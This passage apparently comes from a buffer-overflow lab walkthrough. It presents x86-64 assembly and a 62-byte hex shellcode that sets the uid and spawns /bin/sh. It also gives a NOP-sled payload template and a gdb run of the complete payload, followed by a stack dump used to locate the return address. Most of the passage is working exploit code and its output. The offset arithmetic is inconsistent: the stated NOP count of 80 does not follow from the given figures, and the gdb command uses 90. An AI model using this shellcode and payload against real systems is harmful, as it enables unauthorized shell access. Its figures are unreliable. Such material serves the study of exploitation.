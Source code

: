 ```
push   0x1
pop    rdi
push   0x3c
pop    rax
syscall
```

*Note: In the **fourth and fifth line** change the uid to 1002 for user2 and 1003 for user3 in upcoming task*
The hex code for the shell is 
```
\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05
```
Size: 62byes
For converting to assembly code to hex use [Online Assembly](https://defuse.ca/online-x86-assembler.htm)
Your payload should be like this
```
python -c “print (NOP \* no\_of\_nops + shellcode + random\_data \* no\_of\_random\_data + memory address)”
```

Let the random data be 10 bytes.
NOP = BufferOverflowPoint(155) -shell(62)- random data(10) - memory address(6)
NOP = 80
[NOP](https://en.wikipedia.org/wiki/NOP_(code)) is '\x90'
It does nothing. 

##### Finding the memory address of the buffer
*Do it in gdb*
```
(gdb) run $(python -c "print('\x90'*90 + '\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05' + 'B'*6)")
```
The program will crash
Now analyse the RSP register we talked in the started.
```
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe650      0x00007fff      0x90909090      0x90909090
0x7fffffffe258: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe268: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe278: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe288: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe298: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2a8: 0x31489090      0xc03148ff      0x66f63148      0x6603eabe
0x7fffffffe2b8: 0xb003eabf      0x48050f71      0xbb48d231      0x69622fff
0x7fffffffe2c8: 0x68732f6e      0x08ebc148      0xe7894853      0x50c03148
0x7fffffffe2d8: 0xe6894857      0x050f3bb0      0x6a5f016a      0x050f583c
0x7fffffffe2e8: 0x42424242      0x00004242      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0xd413b16a      0xfcc816b6      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0x1973b16a      0x0337e9c9
0x7fffffffe368: 0x8097b16a      0x0337f97e      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
```